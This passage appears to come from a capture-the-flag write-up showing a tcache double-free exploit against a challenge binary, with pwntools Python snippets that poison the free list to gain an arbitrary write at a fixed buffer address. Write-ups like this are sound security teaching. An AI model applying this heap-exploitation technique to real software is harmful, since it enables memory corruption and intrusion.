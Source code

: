 We will use the following python snippet to demonstrate the double free vulnerability.

```py
io.sendlineafter('whats your name > ', 'A'*8)

malloc(0x88, 'B'*8)
free()
free()

malloc(0x88, 'ABCDEFGH')
malloc(0x88, 'C'*8)
malloc(0x88, 'D'*8)

io.interactive()
```
After the second free we can inspect the heap in pwndbg to confirm that the same chunk has indeed been freed twice as shown in the first image below. The second image shows the bins after the first malloc where we see that the address 'ABCDEFGH' has been inserted into the tcache free list as expected. 
\\
![](/assets/screens/aria-writer/1.png)![](/assets/screens/aria-writer/2.png)

The above example works as follows: first we free the same chunk twice resulting in two identical chunks in the 0x90 tcache bin. We then call malloc and get one of these free chunks in a LIFO manner. We write ABCDEFGH into the user data part of the chunk, but this space is used to store the next pointer of free tcache chunks. When we call malloc again the same chunk is returned, this time with a fake next pointer value. Malloc now thinks that there is another chunk in the bin with the address ABCDEFGH. This means that the third malloc will return the pointer ABCDEFGH. 

The next step is to confirm our write primitive. We will do this by modifying the name buffer. Since PIE is not enabled the address of name can be found by inspecting the decompiled code in ghidra or your favorite disassembler. In this case the address is 0x6020e0. We can change our code to the following and see that name now contains the string "TEST".

```py
name_p = 0x6020e0

io.sendlineafter('whats your name > ', 'A'*8)

malloc(0x88, 'B'*8)
free()
free()

malloc(0x88, p64(name_p))
malloc(0x88, 'C'*8)
malloc(0x88, 'TEST\x00')

io.interactive()
```
